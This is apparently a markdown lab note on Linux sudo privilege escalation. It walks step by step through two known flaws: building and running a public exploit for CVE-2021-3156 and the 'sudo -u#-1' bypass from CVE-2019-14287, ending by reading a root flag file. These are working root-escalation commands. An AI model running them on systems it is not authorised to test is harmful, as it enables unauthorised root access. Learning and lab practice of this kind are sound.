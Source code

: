 
## What is `sudo`?
- `sudo` = run commands as another user (usually root)
- It's safer than giving full root access
- What you can run with `sudo` is controlled by the `/etc/sudoers` file
- Use this to check your sudo powers `sudo -l`

___
# Method 1: CVE-2021-3156 (sudo bug)

This is a **serious vulnerability** found in `sudo` that lets any user become **root**, even if they aren't allowed to run anything with `sudo`.

🧨 Affected versions include:

- `1.8.31` (Ubuntu 20.04)
- `1.8.27` (Debian 10)
- `1.9.2` (Fedora 33)

### 🔍 Step-by-step:

#### 1. Check sudo version:
```bash
sudo -V | head -n 1

# output
# Sudo version 1.8.31
```
2. Clone the exploit:
```bash
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
```
3. Compile it:
```bash
make
```
4. Run the exploit:
```bash
./sudo-hax-me-a-sandwich
```
You’ll see available targets like:
```bash
1) Ubuntu 20.04 - sudo 1.8.31
```
5. Run with correct ID (for Ubuntu 20.04, ID is 1):
```bash
./sudo-hax-me-a-sandwich 1
```
Now you’re root!

___
# Method 2: CVE-2019-14287 (`sudo -u#-1` trick)

If you're allowed to run **any command** as **any user**, you can **bypass root restrictions** with this trick.

#### 1. Check sudo rights:
1. Check sudo rights:

```bash
sudo -l

# Output
# User cry0l1t3 may run the following commands:
#   (ALL) /usr/bin/id
```
2. Try the bypass:
```bash
sudo -u#-1 /usr/bin/id

# Output
# uid=0(root) gid=1005(cry0l1t3)
```
You just became root using a number trick! (`-1` becomes `0`, which is root)
3. Get the flag:
```bash
sudo -u#-1 cat /root/flag.txt
```

